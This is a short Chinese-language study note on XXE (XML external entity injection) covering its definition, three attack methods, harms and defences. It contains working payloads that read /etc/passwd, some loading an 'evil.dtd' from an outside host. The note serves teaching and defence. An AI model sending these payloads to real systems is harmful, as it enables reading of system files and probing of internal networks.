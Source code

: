 ### XXE是什么？攻击方法？危害？防御方法？
	1) XXE是什么？
		先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
		<?xml version="1.0"?>
		<!DOCTYPE test [
			<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
			<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
		]>
		<author>&writer;&copyright;</author>
```
		xxe也就是xml外部实体注入。
	2) XXE攻击方法
		a. 直接通过DTD外部实体声明
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY b SYSTEM "file:///etc/passwd">
			]>
			<c>&b;</c>
```
		b. 通过DTD文档引入外部DTD文档，再引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
		c. 通过DTD外部实体声明引入外部实体声明
			XML内容：
```
			<?xml version="1.0"?>
			<!DOCTYPE a [
				<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
				%d;
			]>
			<c>&b;</c>
```
			DTD文件内容：
```
			<!ENTITY b SYSTEM "file:///etc/passwd">
```
	3) XXE危害
		a. 任意文件读取
		b. 执行系统命令
		c. 探测内网端口
		d. 攻击内网
	4) XXE防御方法
		a. 禁用外部实体声明
		b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
